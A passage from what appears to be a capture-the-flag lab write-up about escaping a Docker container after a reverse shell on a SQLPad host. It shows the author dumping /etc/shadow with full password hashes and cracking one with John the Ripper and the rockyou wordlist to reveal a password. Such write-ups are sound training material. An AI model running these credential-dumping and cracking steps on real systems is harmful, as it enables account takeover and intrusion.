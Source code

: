 ```bash
usr
var
```


A root user was returned from the reverse shell. However, reading the root path, it has a "docker-entrypoint" directory which indicates that the reverse shell is of a Docker container. Hence, in order to gain foothold on the actual target machine, it is necessary to break out of the Docker container.


To do this, first an enumeration of files was performed. There is a file in the current directory called "sqlpad.sqlite" which does contain a hash. Cracking the hash reveals the password "admin", however, it cannot be used to login as the "michael" user. The next step which was performed was to read the `/etc/shadow` file on the Docker container, which is possible as the user in the reverse shell is the root user.


```bash
root@c184118df0a6:/var/lib/sqlpad# cat /etc/shadow
cat /etc/shadow
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::
daemon:*:19051:0:99999:7:::
bin:*:19051:0:99999:7:::
sys:*:19051:0:99999:7:::
sync:*:19051:0:99999:7:::
games:*:19051:0:99999:7:::
man:*:19051:0:99999:7:::
lp:*:19051:0:99999:7:::
mail:*:19051:0:99999:7:::
news:*:19051:0:99999:7:::
uucp:*:19051:0:99999:7:::
proxy:*:19051:0:99999:7:::
www-data:*:19051:0:99999:7:::
backup:*:19051:0:99999:7:::
list:*:19051:0:99999:7:::
irc:*:19051:0:99999:7:::
gnats:*:19051:0:99999:7:::
nobody:*:19051:0:99999:7:::
_apt:*:19051:0:99999:7:::
node:!:19053:0:99999:7:::
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```


The hash for the user "michael" was cracked using John the Ripper, by running a dictionary attack on the hash using the rockyou text file.


```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 ASIMD 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
insaneclownposse (?)     
1g 0:00:00:13 DONE (2025-01-14 00:50) 0.07326g/s 4313p/s 4313c/s 4313C/s kruimel..bluedolphin
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
